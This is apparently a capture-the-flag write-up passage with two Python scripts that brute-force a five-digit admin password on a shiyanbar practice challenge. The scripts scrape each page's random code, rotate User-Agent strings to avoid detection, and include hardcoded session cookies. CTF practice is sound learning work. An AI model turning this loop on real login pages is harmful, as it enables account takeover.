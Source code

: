 ```python
    f = codecs.open(logfile, 'a','utf-8')
    f.write(log + "\n")
    f.close
cookies = {"PHPSESSID":"ttp2qsi06ksmf4t4h1pclk5uh1","Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3":"1507184117","Hm_cv_34d6f7353ab0915a4c582e4516dffbc3":"1*visitor*%E6%B8%B8%E5%AE%A2"}
#如果要上交wp请换成自己的cookie

passwd = [i.replace("\n", "") for i in open("m.txt", "r").readlines()]
#m.txt是我生成的00000到99999的字典，自己生成或者改名
for i in passwd:
    UA = random.choice(user_agent_list)  #随机ua
    headers = {'User-Agent': UA}  #构造成一个完整的User-Agent
    r =requests.get(url,headers=headers,cookies=cookies)
    code = re.findall(r".*?<br><br>(.*?)<br><br>",r.text)[0]
    payloadurl= "http://ctf1.shiyanbar.com/shian-s/index.php?username=admin&password=%s&randcode=%s"%(i,code)
    #print(payloadurl)
    data = requests.get(payloadurl,headers=headers,cookies=cookies)
    data.encoding='utf-8'
    # print(data.text)
    print(i)
    data = data.text+"---------------%s"%i
    logfile(data,"data.txt")
```



我的脚本

```python
#!/usr/bin/env python
# encoding: utf-8

"""

@author: iSky0t
@contact: isky0toor@gmail.com
@time: 2017/10/8 11:28
"""

import requests
import re
def func():
    pass


class Main():
    for i in range(0,99999):
        s = requests.session()
        url = "http://ctf1.shiyanbar.com/shian-s/"
        #req = urllib2.Request(url)
        try:
            f = s.get(url).text
            num = re.findall('<br><br>(\d*)<br><br>', f)
            url = url + "?username=admin&password=" + str(i).zfill(5) + "&randcode=" + num[0]
            result = s.get(url)
            result.encoding = 'utf-8'
            if ('密码错误'.decode('utf-8')) in result.text:
                print "current num:" + str(i).zfill(5) + " --- " + "password error"
            else:
                print "current num:" + str(i).zfill(5) + "----" + result.text
                exit()
        except:
            continue
    
```